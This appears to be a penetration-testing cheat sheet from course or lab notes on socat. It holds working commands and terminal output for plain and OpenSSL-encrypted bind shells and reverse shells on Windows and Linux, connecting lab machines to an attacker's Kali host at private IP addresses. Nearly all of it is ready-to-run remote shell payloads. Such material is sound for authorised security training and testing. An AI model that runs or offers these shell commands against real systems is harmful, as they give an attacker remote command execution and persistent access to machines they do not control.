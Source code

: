 # socat
Socat is a command line based utility that establishes two bidirectional byte streams and transfers data between them.

[socat(1) - Linux man page](https://linux.die.net/man/1/socat)

## Bind Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ socat FILE:`tty`,raw,echo=0 TCP:192.168.134.10:443
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Tools\practical_tools\socat>

### Linux Example

    gothburz@kali:~$ sudo socat TCP-LISTEN:443,fork EXEC:/bin/bash

    PS C:\Users\gothburz> .\socat.exe TCP:192.168.119.134:443 STDOUT
    ip addr | grep tun0
    4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
        inet 192.168.119.134/24 brd 192.168.119.255 scope global tun0

## Reverse Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe TCP:192.168.119.134:443 EXEC:cmd.exe,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ sudo socat TCP-LISTEN:443 STDOUT
    /bin/bash: line 2: $'\f\fcls': command not found
    2020/02/17 16:12:03 socat[12060] E waitpid(): child 12061 exited with status 127
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>

### Linux

    PS C:\Tools\practical_tools\socat> .\socat.exe -d -d TCP4-LISTEN:443 STDOUT
    2020/02/17 13:08:17 socat[796] N listening on AF=2 0.0.0.0:443

    gothburz@kali:~/PWK2.0/4-practical-tools/socat$ sudo socat TCP:192.168.134.10:443,fork EXEC:/bin/bash

## Encrypted Bind Shell

### Windows

    PS C:\Tools\practical_tools\socat> .\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
    err,setsid,sigint,sane

    gothburz@kali:~$ socat - OPENSSL:192.168.134.10:443,verify=0
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>

### Linux

    gothburz@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

    PS C:\Users\gothburz> socat.exe - OPENSSL:192.168.119.134:443,cert=bind_shell.pem,verify=0

## Encrypted Reverse Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe OPENSSL:192.168.119.134:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.ex
    e,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 STDOUT
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>
    

### Linux

    PS C:\Users\gotburzt> .\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 STDOUT

    gothburz@kali:~$ sudo socat OPENSSL:192.168.134.10:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash